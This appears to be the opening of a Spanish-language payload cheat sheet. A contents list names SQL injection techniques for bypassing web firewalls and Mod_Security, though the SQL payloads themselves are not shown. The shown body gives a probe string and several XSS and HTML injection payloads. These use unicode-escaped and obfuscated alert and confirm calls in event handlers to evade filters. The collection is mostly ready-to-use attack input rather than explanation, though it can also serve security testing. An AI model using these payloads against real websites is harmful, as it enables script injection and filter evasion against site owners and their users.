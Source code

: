         * [Sql inyection payload usando upper + reverse + right + sounds like](#Sql-inyection-payload-usando-upper-+-reverse-+-right-+-sounds-like)
        * [SQL injection usando doble reverse + right + if statement + HTML injection](#SQL-injection-usando-doble-reverse-+-right-+-if-statement-+-HTML-injection)
        * [Sql inyection usando las funciones HEX-UNHEX](#Sql-inyection-usando-las-funciones-HEX-UNHEX)
        * [Inyección sql tipo error based usando Extractvalue](#Inyección-sql-tipo-error-based-usando-Extractvalue)
        * [Sql inyection payload usando reverse](#Sql-inyection-payload-usando-reverse)
        * [Sql inyection payload usando extractvalue](#Sql-inyection-payload-usando-extractvalue)
        * [Sql inyection payload + url encode + timing](#Sql-inyection-payload-+-url-encode-+-timing)
    * [Sql inyection + dios sql](#Sql-inyection-+-dios-sql)
    * [Sql inyection Buffer Overflow / Firewall Crash bypass + xss inyection](#Sql-inyection-Buffer-Overflow-/-Firewall-Crash-bypass-+-xss-inyection)
    * [sql inyection payload+ bypass Mod_Security](#sql-inyection-payload+-bypass-Mod_Security)
    * [Sql inyection payload + comment + hex/unhex](#Sql-inyection-payload-+-comment-+-hex/unhex)
    * [Sql inyection payload + url encode](#Sql-inyection-payload-+-url-encode)
        
   
   
  
   
   

### Para detectar errores: sql inyection, xss inyection y HTML inyection

`'"><script>alert(1)</script><h1>d</h1>`

## INYECCIÓNES XSS Y HTML

### h1

```
<h1 onclick=\u0041\u006cert("_Y000!_")>Y00</h1>

<a onclick=\u0041\u006cert("_Y000!_")>Y00</a>

<p onclick=\u0041\u006cert("_Y000!_")>Y00</p>

<marquee onclick=\u0041\u006cert("_Y000!_")>Y00</marquee>

```

### onMouseOver

```
onMouseOver=<script>alert("/XSS BY Y000!/")</script>

</script><h1 onmouseover= top[8680439..toString(30)]("_Y000!_")>

</script><h1 onmouseover=top[/al/.source+/ert/.source]("_Y000!_")>

</script><h1 onmouseover=["_Y000!_"].find(alert)>

</script><h1 onmouseover= (((confirm)))`_Y000!_`>
```

